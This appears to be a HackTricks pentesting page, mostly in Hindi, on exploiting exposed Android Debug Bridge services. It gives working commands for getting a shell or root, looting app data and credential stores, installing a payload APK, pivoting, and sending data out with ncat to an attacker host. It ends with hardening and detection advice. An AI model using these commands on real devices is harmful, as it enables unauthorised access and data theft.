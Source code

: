 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) एक कमांड-लाइन टूल है जो Android-आधारित उपकरणों और इम्यूलेटर के साथ संवाद करने के लिए उपयोग किया जाता है। सामान्य क्रियाओं में पैकेज स्थापित करना, डिबगिंग करना, और उपकरण पर एक इंटरैक्टिव Unix शेल प्राप्त करना शामिल है।

- ऐतिहासिक डिफ़ॉल्ट TCP पोर्ट: 5555 (क्लासिक "adb tcpip" मोड)।
- आधुनिक वायरलेस डिबगिंग (Android 11+) TLS पेयरिंग और mDNS सेवा खोज का उपयोग करता है। कनेक्ट पोर्ट गतिशील है और mDNS के माध्यम से खोजा जाता है; यह 5555 नहीं हो सकता है। पेयरिंग adb pair host:port के साथ की जाती है उसके बाद adb connect। आक्रामक निहितार्थों के लिए नीचे नोट्स देखें।

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

यदि आप ADB को उजागर और पहुंच योग्य पाते हैं, तो जल्दी से कनेक्ट करने और सूचीबद्ध करने का प्रयास करें:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- यदि डिवाइस ADB प्रमाणीकरण लागू करता है (ro.adb.secure=1), तो आपको पूर्व-प्रमाणित (USB RSA auth) होना पड़ेगा या Android 11+ वायरलेस डिबगिंग पेयरिंग का उपयोग करना पड़ेगा (जिसके लिए डिवाइस पर प्रदर्शित एक बार का कोड आवश्यक है)।
- कुछ विक्रेता इमेज, इंजीनियरिंग/यूजरडिबग बिल्ड, एमुलेटर्स, टीवी, STB और विकास किट बिना प्रमाणीकरण के या रूट के रूप में adbd चलाते हैं। उन मामलों में, आप आमतौर पर सीधे एक शेल या रूट शेल में पहुंचेंगे।

सामान्य ADB कमांड संदर्भ के लिए, देखें:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## त्वरित पोस्ट-एक्सप्लॉइटेशन

एक बार जब आपके पास शेल हो, तो विशेषाधिकार और SELinux संदर्भ को मान्य करें:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerate and capture data

- तीसरे पक्ष के ऐप्स और पथों की सूची बनाएं:
```bash
pm list packages -3
pm path <pkg>
```
- यदि आपके पास रूट है (adb root या su काम करता है), तो आप सीधे /data तक पहुंच सकते हैं। यदि नहीं, तो डिबग करने योग्य ऐप्स के लिए run-as का उपयोग करें:
```bash
# बिना रूट के, एक डिबग करने योग्य ऐप के लिए
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# रूट के साथ
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- उपयोगी सिस्टम कलाकृतियाँ (रूट की आवश्यकता):
- /data/system/users/0/accounts.db और संबंधित AccountManager डेटा
- /data/misc/wifi/ (पुराने संस्करणों पर नेटवर्क कॉन्फ़िगरेशन/कुंजी)
- ऐप-विशिष्ट SQLite DBs और shared_prefs /data/data/<pkg> के तहत

आप इसका उपयोग संवेदनशील जानकारी (जैसे, ऐप रहस्य) प्राप्त करने के लिए कर सकते हैं। Chrome डेटा विचारों के बारे में नोट्स के लिए, संदर्भित मुद्दे को देखें [यहाँ](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- इंस्टॉल करें और रनटाइम अनुमतियाँ स्वचालित रूप से दें:
```bash
adb install -r -g payload.apk         # -g मैनिफेस्ट में घोषित सभी रनटाइम अनुमतियाँ देता है
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- गतिविधियों/सेवाओं/प्रसारणों को सीधे शुरू करें:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port forwarding and pivoting

रूट के बिना भी, adb स्थानीय पोर्ट को डिवाइस पोर्ट पर और इसके विपरीत अग्रेषित कर सकता है। यह डिवाइस पर स्थानीय रूप से बंधी सेवाओं तक पहुंचने या हमलावर सेवाओं को डिवाइस पर उजागर करने के लिए उपयोगी है।

- होस्ट->डिवाइस अग्रेषित करें (अपने होस्ट से डिवाइस-स्थानीय सेवा तक पहुंचें):
```bash
adb forward tcp:2222 tcp:22       # यदि डिवाइस SSH चला रहा है (जैसे, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # ऐप के स्थानीय डिबग सर्वर को उजागर करें
```
- रिवर्स डिवाइस->होस्ट (डिवाइस को आपके होस्ट पर एक सेवा तक पहुँचने दें):
```bash
adb reverse tcp:1080 tcp:1080     # डिवाइस ऐप अब host:1080 को 127.0.0.1:1080 के रूप में पहुंच सकते हैं
```
- सॉकेट के माध्यम से फ़ाइल निकासी (कोई sdcard लेखन नहीं):
```bash
# होस्ट पर: सुनें
ncat -lvp 9000 > dump.tar
# डिवाइस पर: निर्देशिका को tar के रूप में भेजें (रूट या run-as के अनुसार)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Wireless Debugging (Android 11+)

आधुनिक Android डिवाइस-साइड पेयरिंग और mDNS खोज के साथ TLS-सुरक्षित वायरलेस डिबगिंग लागू करता है:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- पोर्ट गतिशील हैं; 5555 मान न मानें। mDNS सेवा नाम इस प्रकार दिखते हैं:
- _adb-tls-pairing._tcp (जोड़ना)
- _adb-tls-connect._tcp (जुड़ा हुआ कनेक्ट)
- _adb._tcp (पारंपरिक/सादा)
- यदि mDNS फ़िल्टर किया गया है, तो कुछ बिल्ड पर क्लासिक USB-सहायता सक्षम करना अभी भी काम कर सकता है: `adb tcpip 5555` फिर `adb connect <ip>:5555` (रीबूट होने तक)।

आक्रामक निहितार्थ: यदि आप डिवाइस UI के साथ इंटरैक्ट कर सकते हैं (जैसे, भौतिक पहुंच या मोबाइल MDM गलत कॉन्फ़िगरेशन) वायरलेस डिबगिंग सक्षम करने और जोड़ने के कोड को देखने के लिए, तो आप बिना केबल के एक लंबे समय तक जुड़े ADB चैनल स्थापित कर सकते हैं। कुछ OEMs ADB को TCP पर इंजीनियरिंग/डेव छवियों में जोड़ने के बिना उजागर करते हैं—हमेशा जांचें।

## Hardening / Detection

रक्षा करने वालों को मान लेना चाहिए कि कोई भी पहुंच योग्य adbd (TCP) महत्वपूर्ण जोखिम है।

- जब आवश्यकता न हो, ADB और वायरलेस डिबगिंग को बंद करें। डेवलपर विकल्पों में USB डिबगिंग प्राधिकरणों को रद्द करें।
- सुनिश्चित करें कि नेटवर्क नीति अविश्वसनीय खंडों पर इनबाउंड TCP/5555 और mDNS-आधारित ADB खोज को ब्लॉक करती है।
- आपके नियंत्रण में उपकरणों पर:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP सुनने को बंद करें (या उपयोग करें: adb usb)
stop adbd; start adbd             # डेमॉन को पुनः प्रारंभ करें
```
- कॉर्पोरेट नेटवर्क पर mDNS रिकॉर्ड `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` के लिए निगरानी करें और अप्रत्याशित 5555 श्रोता के लिए अलर्ट करें।
- असुरक्षित बिल्ड के लिए सूची बनाएं: `getprop ro.debuggable`, `ro.build.type`, और `ro.adb.secure`।

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
